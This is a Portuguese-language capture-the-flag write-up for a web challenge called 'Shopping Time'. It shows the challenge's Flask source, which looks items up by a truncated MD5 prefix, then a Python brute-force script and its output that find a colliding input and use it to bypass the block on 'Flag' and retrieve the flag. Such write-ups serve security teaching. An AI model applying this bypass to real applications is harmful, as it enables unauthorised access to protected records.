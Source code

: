 # Shopping Time

*I finally got my online shop up and running, check it out and see what you like!*

- *Web Exploitation*
- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio consiste em uma espécie de colisão de hash. Temos acesso ao código do servidor HTTP rodando.

```py
from flask import Flask,render_template,request, redirect
import sqlite3
import hashlib

app = Flask(__name__)


@app.route("/")
def mainHandler():
    return render_template("index.html")

@app.route("/review")
def reviewHandler():
    con = sqlite3.connect("shopping.db")
    cur = con.cursor()
    item = request.args.get("item")
    if item == "Flag":
        return("Blacklisted term detected")
    hash = hashlib.md5(item.encode()).hexdigest()
    result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
    try:
        result = result.fetchone()
        item = result[1]
    except:
        return (redirect("/"))
    return render_template("review.html",placeholder=item,price=result[2],desc=result[3],img=result[4])


if __name__=="__main__":
    app.run(host="0.0.0.0",port=8000,debug=False)
```

Podemos observar que não é possível buscar o termo `Flag` na rota de `/review`, e o item é passado em uma função hash, transformado uma string hexadecimal e os 6 primeiros caracteres são o ID do item.

```py
item = request.args.get("item")
    if item == "Flag":
        return("Blacklisted term detected")
    hash = hashlib.md5(item.encode()).hexdigest()
    result = cur.execute("SELECT * FROM items WHERE id=?", (hash[0:6],))
```

Como somente os 6 primeiros caracteres são levados em conta, podemos tentar achar uma string cujo hash comece com os mesmos 6 caracteres do hash de `Flag`.

```py
import hashlib

def find_collision(target):
    target_hash = hashlib.md5(target.encode()).hexdigest()
    target_prefix = target_hash[:6]
    print(f"Target Prefix: {target_prefix}")

    i = 0
    while True:
        candidate = f"test{i}"
        hash_value = hashlib.md5(candidate.encode()).hexdigest()
        if hash_value.startswith(target_prefix):
            print(f"Found collision: Input = {candidate}, Hash = {hash_value}")
            return candidate
        i += 1

collision_input = find_collision("Flag")
print(f"Collision Input: {collision_input}")
```

```bash
$ python3 collision.py

Target Prefix: c58360
Found collision: Input = test41093, Hash = c58360d262073b06a75e00453f901aa7
Collision Input: test41093
```

Agora podemos acessar a rota `/review?item=test41093` e pegar a flag.

```
TUCTF{k1nd_0f_an_1d0r_vu1n!} 
```

![flag](flag.png)
